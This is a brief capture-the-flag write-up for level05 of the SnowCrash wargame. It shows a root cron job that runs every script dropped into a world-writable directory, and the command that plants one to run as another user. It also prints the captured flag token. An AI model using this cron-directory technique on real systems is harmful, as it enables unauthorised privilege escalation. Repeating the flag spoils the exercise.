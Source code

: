When logging to level 5 we have the message:
`You have a mail.

```
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
By looking at the cron task we can see that every 2minutes the script /usr/sbin/openarenaserver is executed by flag05

We openend the file `openarenaserver` with cat:
```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

The system executes every script placed into the /opt/openarenaserver directory and then deletes it.
We can't use vim to write a script there because we don't have rights, but can use this behavior to build an exploit.

`echo "getflag > /tmp/getflag" > /opt/openarenaserver/getflag.sh`

and we wait 2mn for the script to execut.
then we just have to do: 
```
flag05@SnowCrash:~$ cat /tmp/getflag
viuaaale9huek52boumoomioc
```